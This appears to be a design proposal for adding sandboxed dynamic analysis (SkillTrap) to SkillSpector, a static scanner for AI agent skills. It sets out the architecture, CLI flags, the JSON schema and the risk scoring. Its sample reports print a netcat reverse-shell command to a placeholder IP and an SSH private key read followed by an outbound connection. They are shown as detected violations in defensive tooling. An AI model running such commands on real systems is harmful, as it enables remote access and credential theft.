








# SkillTrap Dynamic Analysis Integration

> **Status:** Proposed | **Author:** Nir Paz | **Date:** 2026-04-03

**Goal:** Integrate dynamic sandbox analysis into SkillSpector by composing
with SkillTrap (renamed from Skillex), a Go-based dynamic analysis engine
that runs skills in instrumented Docker containers and monitors their runtime
behavior via Falco (eBPF) or strace.

**Outcome:** Users run `skillspector scan ./skill --dynamic` to get both
static and dynamic analysis in a single report. Skills that pass static
analysis but behave maliciously at runtime are caught. Skills with ambiguous
static findings can be confirmed or cleared by runtime evidence.

---

## Table of Contents

1. [Context and Motivation](#1-context-and-motivation)
2. [Architecture Overview](#2-architecture-overview)
3. [Scan Flow](#3-scan-flow)
4. [Data Model](#4-data-model)
5. [CLI Interface](#5-cli-interface)
6. [Report Output](#6-report-output)
7. [Deduplication](#7-deduplication)
8. [New Code in SkillSpector](#8-new-code-in-skillspector)
9. [Changes to SkillTrap](#9-changes-to-skilltrap)
10. [Open-Source Structure](#10-open-source-structure)
11. [Benefits](#11-benefits)
12. [Pros and Cons](#12-pros-and-cons)
13. [Risks and Mitigations](#13-risks-and-mitigations)
14. [Future Work](#14-future-work)

---

## 1. Context and Motivation

SkillSpector performs static analysis (regex patterns, AST analysis, taint
tracking, YARA rules) and LLM-powered semantic analysis on AI agent skills.
This catches a wide range of vulnerabilities but has fundamental blind spots:

- **Obfuscated payloads** that evade pattern matching but execute at runtime
- **Environment-dependent behavior** that only activates with specific inputs
- **Multi-stage attacks** where benign-looking code downloads and executes a
  remote payload
- **Legitimate-looking code** with subtle data exfiltration hidden in normal
  operations

SkillTrap (originally an internal project named "Skillex") addresses these
blind spots. It
packages skills into Docker containers, runs them with synthetic inputs,
monitors all system calls, and evaluates behavior against security policies.

**Together they provide full-spectrum coverage:**



### What SkillTrap brings

| Capability | Detection method | Confidence |
|---|---|---|
| Reverse shells, backdoors | Falco community rules + process monitoring | High |
| Credential file theft (.ssh/, /etc/shadow) | File read monitoring + Falco rules | High |
| Crypto mining | Process name + CPU pattern matching | High |
| ClickFix social engineering (curl \| bash) | YARA static + dynamic process monitoring | High |
| Environment variable exfiltration | Env access monitoring with synthetic canary secrets | Medium |
| Suspicious outbound network connections | Network connect() monitoring | Medium |
| Cloud metadata access (169.254.169.254) | Network destination monitoring | High |
| File system persistence (cron, systemd) | File write monitoring + Falco rules | Medium |

---

## 2. Architecture Overview

Two independent open-source repos that compose via CLI + JSON:



**Contract:** SkillSpector invokes SkillTrap's CLI as a subprocess and reads
its JSON reports from an output directory. SkillTrap has no knowledge of
SkillSpector. No shared libraries, no shared proto, no new dependencies in
either project.

**Versioning:** SkillTrap JSON includes a `schema_version` field. SkillSpector
validates it and warns on unknown versions.

### Design decisions

| Decision | Choice | Rationale |
|---|---|---|
| Repo structure | Separate repos | Different languages (Python/Go), different release cadences, independent contributor pools |
| Data interchange | JSON (not SARIF) | SARIF carries findings only; JSON carries verdict, coverage, events, run context -- 80% more data |
| Integration method | Subprocess (not gRPC) | Zero new dependencies, familiar pattern, testable with fixture files |
| Activation model | Explicit `--dynamic` flag with recommendations | No surprise Docker launches; user stays in control |
| Rule ID format | Preserve SkillTrap's `SKX/` prefix | Traceability, no mapping table to maintain |
| Batch handling | Single SkillTrap invocation per scan | SkillTrap handles its own skill discovery and parallelism |

---

## 3. Scan Flow

### Mode 1: Static-only (default, unchanged)



No change from current behavior. SkillTrap not required.

### Mode 2: Static + recommendation

Same flow as Mode 1. The report node inspects findings and appends a
recommendation when dynamic analysis would add value.

**Recommendation triggers** (any of):
- 2+ findings with confidence < 0.70
- Any TP4 (description-behavior mismatch) finding
- Any LP1 (underdeclared capability) finding
- Risk score in the 25-60 range

Output example:
```
-- Recommendation --
  3 findings have confidence < 0.70 and could be confirmed
  by runtime analysis.

  Re-run with --dynamic to sandbox-test this skill:
    skillspector scan ./skill --dynamic

  Requires: skilltrap binary on PATH, Docker running
```

### Mode 3: Static + dynamic (`--dynamic`)



The `dynamic_runner` is a new LangGraph node inserted between `meta_analyzer`
and `report`. It is a passthrough (returns empty dict) when `--dynamic` is not
set.

### Batch flow with selective analysis



When `--dynamic` is used with `--dynamic-threshold N` (default: 25), only
skills whose static risk score >= N are sent to SkillTrap. The dynamic_runner
computes a preliminary risk score from `filtered_findings` using the same
`_compute_risk_score` function as the report node (extracted to a shared
utility). This avoids sandboxing all skills when only a fraction are
suspicious.

---

## 4. Data Model

### SkillTrap JSON report (consumed by SkillSpector)

SkillTrap produces one JSON file per skill analyzed:

```json
{
  "schema_version": 1,
  "skill_name": "trojan-news-digest",
  "skill_dir": "testdata/clawhavoc/trojan-news-digest",
  "repo": "openclaw/clawhub",
  "repo_url": "https://github.com/openclaw/clawhub.git",
  "description": "Aggregates news from RSS feeds",
  "verdict": "high-risk",
  "coverage": {
    "scripts_total": 2,
    "scripts_executed": 2,
    "code_blocks_total": 3,
    "code_blocks_executed": 2,
    "coverage_pct": 80.0
  },
  "stats": {
    "total_runs": 10,
    "total_events": 47,
    "total_violations": 3,
    "deny_count": 2,
    "flag_count": 1,
    "failed_runs": 0
  },
  "violations": [
    {
      "rule_name": "Reverse Shell via Netcat",
      "action": "deny",
      "severity": "critical",
      "detail": "Reverse shell attempt (cmdline=nc -e /bin/sh 203.0.113.5 4444)",
      "source": "dynamic:falco",
      "file": "scripts/aggregate.py",
      "line": 0,
      "mitre_id": "T1059"
    }
  ],
  "events": [
    {
      "run_id": 3,
      "timestamp": "2026-04-03T10:23:45.123Z",
      "type": "PROCESS_SPAWN",
      "detail": "nc -e /bin/sh 203.0.113.5 4444",
      "meta": {"pid": "1234", "parent": "python3"}
    }
  ],
  "runs": [
    {
      "run_id": 3,
      "label": "perm-3: random args + synthetic env",
      "event_count": 12,
      "total_duration_ms": 4500
    }
  ]
}
```

### Field mapping

| SkillTrap field | SkillSpector usage |
|---|---|
| `violations[]` | Converted to `Finding` objects (rule_id=`SKX/{rule_name}`) |
| `verdict` | Displayed in report; modifies risk score |
| `coverage` | Displayed in report; informs confidence |
| `stats` | Displayed in report summary |
| `events[]` | Attached to findings for investigation context |
| `runs[]` | Labels shown alongside event details |
| `skill_name` + `skill_dir` | Match reports back to skills in batch mode |

### New state fields in SkillSpector

```python
class SkillspectorState(TypedDict, total=False):
    # ... existing fields ...

    # Dynamic analysis
    dynamic_enabled: bool              # --dynamic flag
    dynamic_threshold: int             # --dynamic-threshold (default 25)
    dynamic_permutations: int          # --dynamic-perms (default 10)
    dynamic_reports: list[dict]        # Raw SkillTrap JSON reports
    dynamic_metadata: dict             # Aggregated: verdicts, coverage, stats
```

### Severity mapping

| SkillTrap severity | SkillTrap action | SkillSpector severity | Risk score contribution |
|---|---|---|---|
| `critical` | `deny` | `CRITICAL` | +50 |
| `high` | `deny` | `HIGH` | +25 |
| `high` | `flag` | `HIGH` | +15 |
| `medium` | `flag` | `MEDIUM` | +10 |
| `low` | `flag` | `LOW` | +5 |
| `info` | `flag` | `LOW` | +2 |

### Verdict to risk score modifier

| SkillTrap verdict | Risk score effect |
|---|---|
| `high-risk` | +30 (confirms static suspicion) |
| `caution` | +10 |
| `clean` | -10 (reduces score -- clears ambiguous static findings) |
| `failed` | +5 (incomplete analysis, cannot confirm safety) |

The `-10` for `clean` is important: dynamic analysis can **lower** the risk
score when it confirms a skill is safe despite ambiguous static findings. This
is the false-positive-clearing behavior that justifies the sandbox cost.

---

## 5. CLI Interface

### New flags

```
skillspector scan <path> [existing flags] [new dynamic flags]

  --dynamic                  Enable dynamic analysis via SkillTrap
  --dynamic-threshold INT    Min static risk score for dynamic (batch, default: 25)
  --dynamic-perms INT        Input permutations per skill (default: 10)
  --dynamic-workers INT      Max parallel containers (default: auto)
  --dynamic-timeout DURATION Max time per sandbox run (default: 5m)
  --dynamic-policy PATH      Custom SkillTrap policy YAML
```

### Examples

```bash
# Static only (unchanged)
skillspector scan ./skill

# Static + dynamic for a single skill
skillspector scan ./skill --dynamic

# Batch: static all, dynamic only for risky skills
skillspector scan ./skills-bundle.zip --dynamic --dynamic-threshold 30

# CI pipeline: strict mode
skillspector scan https://github.com/org/skills.git \
    --dynamic --dynamic-perms 20 -f sarif -o report.sarif

# Custom policy
skillspector scan ./skill --dynamic --dynamic-policy ./strict-policy.yaml
```

### Error handling

| Condition | Behavior |
|---|---|
| `--dynamic` but `skilltrap` not on PATH | Error: `SkillTrap not found. Install: github.com/NVIDIA/skilltrap` |
| `--dynamic` but Docker not running | Error from SkillTrap, relayed to user |
| SkillTrap exits non-zero | Warning + static results still shown |
| SkillTrap times out | Warning + static results still shown |
| SkillTrap JSON parse failure | Warning + skip dynamic, show static only |
| Batch: all skills below threshold | Info: `All skills below threshold (25). Skipping sandbox.` |

**Principle:** Static results are always shown. Dynamic failure never blocks
the static report.

---

## 6. Report Output

### Terminal format

Static section is unchanged. A new "Dynamic Analysis" section appears after it:

```
-- Dynamic Analysis (SkillTrap) --

  Verdict:   high-risk (2 deny, 1 flag)
  Coverage:  80% of executable content (2/2 scripts, 2/3 blocks)
  Runs:      10 permutations / 47 events / 4.5s avg

  SKX/Reverse-Shell-via-Netcat               CRITICAL   deny
    Run #3: nc -e /bin/sh 203.0.113.5 4444
    Process: python3 -> nc (pid 1234)
    Trigger: scripts/aggregate.py with synthetic args

  SKX/Sensitive-File-Read                    HIGH       deny
    Run #1: openat("/root/.ssh/id_rsa", O_RDONLY)
    Followed by: connect(203.0.113.5:443)
    Trigger: scripts/aggregate.py with env NEWSAPI_KEY=SKILLTRAP_CANARY_1

  SKX/Unexpected-Outbound-Connection         MEDIUM     flag
    Run #1-#10: connect(203.0.113.5:443) in 8/10 runs

-- Combined Assessment --

  Static:   4 findings (2 HIGH, 1 MEDIUM, 1 HIGH)
  Dynamic:  3 violations (2 deny, 1 flag)
  Verdict:  CRITICAL -- dynamic confirmed credential theft + reverse shell
```

### Batch terminal format

```
-- Batch Summary (50 skills) --

  Risk        Static    Dynamic    Final
  CRITICAL    2         +1 confirmed  3
  HIGH        3         +2 confirmed  5
  MEDIUM      10        --            10
  LOW         12        --            12
  CLEAN       23        1 cleared     24

-- Dynamic Results (5 skills tested, threshold >= 25) --

  trojan-news-digest/     87  CRITICAL  high-risk   2 deny, 1 flag
  env-exfil-calendar/     64  HIGH      high-risk   1 deny, 2 flag
  reverse-tunnel-poly/    58  HIGH      caution     0 deny, 3 flag
  amos-dropper/           45  MEDIUM    high-risk   1 deny, 0 flag  ^ escalated
  clickfix-weather/       32  MEDIUM    clean       0 deny, 0 flag  v cleared
```

### SARIF output

Both tools appear as separate runs in the SARIF log:

```json
{
  "$schema": "https://schemastore.azurewebsites.net/.../sarif-schema-2.1.0.json",
  "version": "2.1.0",
  "runs": [
    {
      "tool": {"driver": {"name": "skillspector", "version": "1.2.0"}},
      "results": ["...static findings..."]
    },
    {
      "tool": {"driver": {"name": "skilltrap", "version": "0.1.0"}},
      "results": ["...dynamic findings..."]
    }
  ]
}
```

This follows the SARIF multi-run pattern. GitHub and GitLab security dashboards
display findings from both tools, correctly attributed.

### JSON and Markdown outputs

Same structure as terminal: static section, dynamic section, combined
assessment. JSON includes the full `dynamic_reports` array for programmatic
consumers.

---

## 7. Deduplication

When SkillTrap finds the same issue that static analysis already flagged
(e.g., both detect a reverse shell -- YARA statically, Falco dynamically):

1. Both findings are **kept** in the report (different evidence sources)
2. Risk score counts the finding **once** -- the higher-severity instance wins
3. Report shows the linkage: `SKX/Reverse-Shell -- confirms static YR1`

**Matching logic:** Compare `file` field + a mapping table of known overlaps
between SkillTrap rule names and SkillSpector rule IDs. The overlap set is
small (~10 YARA rules) and maintained manually.

For unknown overlaps, the default is conservative: keep both findings, count
both in the risk score. False deduplication (removing a genuinely distinct
finding) is worse than double-counting.

---

## 8. New Code in SkillSpector

### Module structure



### File inventory

| File | Responsibility | Est. lines |
|---|---|---|
| `src/skillspector/dynamic/__init__.py` | Package exports | ~5 |
| `src/skillspector/dynamic/discovery.py` | Detect `skilltrap` on PATH, check version, check Docker | ~40 |
| `src/skillspector/dynamic/runner.py` | Build subprocess command, invoke, capture stderr | ~60 |
| `src/skillspector/dynamic/parser.py` | Parse JSON, convert violations to Findings, match to skills | ~120 |
| `src/skillspector/dynamic/models.py` | Pydantic models for SkillTrap JSON schema | ~80 |
| `src/skillspector/nodes/dynamic_runner.py` | LangGraph node: orchestrate discovery/selection/run/parse/merge | ~100 |
| `tests/test_dynamic_runner.py` | Unit tests with fixture JSON files (no Docker needed) | ~200 |
| `docs/dynamic-analysis.md` | User-facing documentation | ~200 |

**Total new code: ~400 lines** (excluding tests and docs). No new dependencies
-- uses `subprocess`, `json`, `pathlib` (stdlib) plus existing `pydantic`.

### Changes to existing files

| File | Change | Impact |
|---|---|---|
| `state.py` | Add 5 `dynamic_*` fields | Additive |
| `graph.py` | Insert `dynamic_runner` node between `meta_analyzer` and `report` | Small graph change |
| `cli.py` | Add `--dynamic*` flags | Additive |
| `nodes/report.py` | Dynamic section in all formats; risk score modifier; recommendation | ~150 new lines |

### Graph change



The new node (highlighted) is a passthrough when `dynamic_enabled` is false.

---

## 9. Changes to SkillTrap

Minimal changes to the existing codebase:

| Change | Reason |
|---|---|
| Rename `skillex` to `skilltrap` (binary, module path, proto, docs) | Branding alignment |
| Add `"schema_version": 1` to JSON report output | Interface versioning |
| Update `go.mod` module path to `github.com/NVIDIA/skilltrap` | OSS repo location |
| Apply NVIDIA OSS template (governance files, README, LICENSE) | Same treatment as SkillSpector |

SkillTrap's functionality is unchanged. It remains a standalone tool.

---

## 10. Open-Source Structure

### Two repos

```
github.com/NVIDIA/skillspector          github.com/NVIDIA/skilltrap
  Python / pip install                    Go / go install or binary
  Static + LLM + dynamic orchestration    Sandbox + Falco/strace
  MIT license                             MIT license
  NVIDIA OSS template                     NVIDIA OSS template
```

### Dependency graph



**Key property:** Every dashed line is optional. SkillSpector works alone.
SkillTrap works alone. Together they provide full-spectrum analysis. Falco,
GuardDog, and YARA each add deeper detection within SkillTrap.

### Cross-repo coordination

| Concern | Strategy |
|---|---|
| JSON schema changes | `schema_version` field; SkillSpector warns on unknown versions |
| Release sync | Not required; independent release cadences |
| CI testing | SkillSpector CI includes a fixture-based test (no Docker). Optional integration test stage that installs SkillTrap + Docker and runs end-to-end. |
| Documentation | Each repo's README links to the other. SkillSpector README has a "Dynamic Analysis" section explaining the SkillTrap integration. |

---

## 11. Benefits

| Benefit | Detail |
|---|---|
| **Full-spectrum analysis** | Static + LLM + dynamic. Covers threats no single technique catches alone. |
| **False positive reduction** | Dynamic clean verdict *lowers* the risk score. Scanners that only escalate produce alert fatigue; this one can also clear. |
| **Evidence-grade findings** | Static: "this code *could* exfiltrate." Dynamic: "this code *did* connect to 203.0.113.5 and send /root/.ssh/id_rsa." Runtime evidence is harder to dispute. |
| **Batch efficiency** | Threshold-triggered selective analysis. Scan 500 skills, sandbox 20. 96% compute savings. |
| **Open-source composability** | Two independent tools that compose well. Contributors work on one without understanding the other. |
| **CI/CD ready** | One command produces merged SARIF for GitHub/GitLab security dashboards. |
| **Graceful degradation** | No SkillTrap? Static works. No Docker? Static works. No Falco? Strace fallback. No API key? Patterns still work. Every layer is optional. |

---

## 12. Pros and Cons

### Pros of the subprocess + JSON approach

| Pro | Why |
|---|---|
| Zero coupling | No shared libs, no proto, no gRPC. ~400 lines of stdlib Python. |
| Independent releases | SkillTrap ships new rules; SkillSpector picks them up automatically. |
| Testable without Docker | Unit tests use fixture JSON files. |
| Rich data | JSON carries verdict, coverage, events, run context. SARIF would lose 80% of this. |
| Familiar pattern | Same as `docker inspect`, `kubectl get -o json`, `gh api`. |

### Cons and mitigations

| Con | Severity | Mitigation |
|---|---|---|
| No real-time progress | Medium | Rich spinner. Future: `--progress` flag on SkillTrap writes JSONL to stderr. |
| JSON schema coupling | Low | `schema_version` field. Warn on unknown. Both repos NVIDIA-controlled. |
| Two install steps | Low | Clear docs, README cross-links. `pip install` + `go install`. |
| Docker requirement | Low | By design. `--dynamic` is explicit opt-in. Static users unaffected. |
| Deduplication complexity | Low | ~10 known YARA overlaps. Manual mapping table. Default: keep both. |

---

## 13. Risks and Mitigations

| Risk | Likelihood | Impact | Mitigation |
|---|---|---|---|
| SkillTrap JSON schema breaks | Low | Medium | `schema_version` + CI cross-repo test |
| Binary not available for platform | Medium | Low | Go cross-compilation: linux/darwin x amd64/arm64 |
| Docker unavailable in CI | Medium | Low | Static still works; document Docker-in-Docker option |
| Sandbox escape | Very low | High | Process isolation, no `--privileged`, capability dropping, security advisory |
| Name collision (skilltrap.com) | Very low | Low | Domain is dormant; project lives on github.com/NVIDIA/skilltrap |

---

## 14. Future Work

These are not part of this design but the architecture naturally supports them:

- **SkillTrap `--progress` stderr streaming** for real-time event display
- **Cache integration** (`--dynamic-cache`) for incremental batch re-analysis
- **GitHub Action** (`nvidia/skillspector-action`) installing both tools
- **SkillTrap standalone CI** for teams that only want dynamic analysis
- **SandyClaw interop** (Permiso's dynamic sandbox) as an alternative backend,
  if their output format stabilizes
